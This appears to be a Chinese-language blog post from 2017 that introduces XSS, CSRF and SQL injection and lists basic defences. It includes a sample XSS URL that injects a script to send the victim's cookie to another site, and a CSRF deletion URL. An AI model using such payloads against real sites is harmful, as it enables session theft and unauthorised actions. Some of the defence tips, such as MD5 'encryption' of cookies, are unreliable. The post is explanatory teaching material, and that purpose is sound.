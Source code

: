 ```yaml
---
title: "XSS、CSRF与SQL注入"
date: 2017-03-24 08:37:00
tags: [前端安全, JavaScript]
categories: [前端安全]
---
```

>关于Web安全的内容经常会被问到。前端主要关注的是XSS与CSRF，而以前曾经见过SQL注入，这里一并总结一下。仅为理解概念。

<!--more-->
# XSS与CSRF
## XSS
### 什么是XSS
XSS即Cross Site Script，跨站脚本攻击。

原理是利用网站中提供的输入入口，如表单等，恶意输入一些可执行的恶意代码，如果服务器对原始输入数据不加处理，这些恶意代码就可能会被当做正常代码被执行。

理论上，所有可输入的地方都可能存在XSS漏洞。

#### DOM Based XSS
XSS分为两种，一种是单会话中，通过在URL中添加某些脚本语句，来获得受害人的一些信息。这种攻击局限于DOM内，因此叫做DOM Based XSS。

一个简单易懂的例子：
```
http://www.a.com?content=<script>window.open("www.b.com?param="+document.cookie</script>
```
很多站点，页面内容依赖URL传递，这种站点就容易被XSS攻击。因为一旦URL包含了某些可执行脚本，它就会被解析称为DOM脚本的一部分进行执行。上例中，如果一个登录到a站点的用户点击了该链接，那么包含他登录信息的cookie就会随着`window.open`发给b站点的HTTP请求被发送到b站。
这样b站点就盗取了用户在a站点的登录信息。

#### Stored XSS
这种方式的攻击是，恶意用户通过某种方式将恶意代码存储在服务器上（订阅源）。比如发布一篇带有恶意代码的网络日志，则所有访问该日志的用户都可能被盗取信息。

常见的例子就是钓鱼网站。

### 怎样防范XSS
1. 输入过滤  
  就是不接受用户输入的原始文本内容，而对它们进行编码。比如：
  * <: `&lt;`
  * \>: `&gt;`
  * &: `&amp;`
  * ": `&quot;`
  * 空格: `&nbsp;`
  * ASCII字符: `&#<number>`
  * 关键字：`script`、`javascript`等
2. 输出编码  
  不要在URL中显示用户信息；在需要将用户信息输出到页面中时，使用HTML Encoder编码再输出。   
3. Cookie防盗
  * 用MD5等方法对Cookie加密
  * 对cookie进行IP绑定
  * 让cookie在`document`对象中不可见。设置cookie参数`HTTPOnly`
  * 注意设置`HTTPOnly`只能阻止对cookie的读，并不能阻止对cookie的写

## CSRF
### 什么是CSRF
CSRF即Cross-site request forgery，跨站请求伪造。

盗用用户身份，并以用户身份发送请求。

当用户登录正规站点a后，访问恶意站点b，b就可能模拟用户操作，私自访问a站。比如通过：
```
http://a.com/comment/?type=delete&id=123
```
就可以删除用户在a站的信息。

### 怎样防范CSRF
1. 验证码
  在用户的关键操作上加验证码
2. Session id/Token
  对用户请求添加服务器与客户端协商过的唯一id，在用户发表单时带上这个id以验证身份。

# SQL注入
如果后台数据库操作代码，直接使用用户输入的字符串参数来拼接SQL查询语句，那么就可能存在SQL注入。因为用户的输入将直接作为SQL语句的一部分，如果用户输入了一些SQL语句，那么这些语句将会被查询。

详细请见：[SQL注入攻防入门详解](http://www.cnblogs.com/heyuquan/archive/2012/10/31/2748577.html)
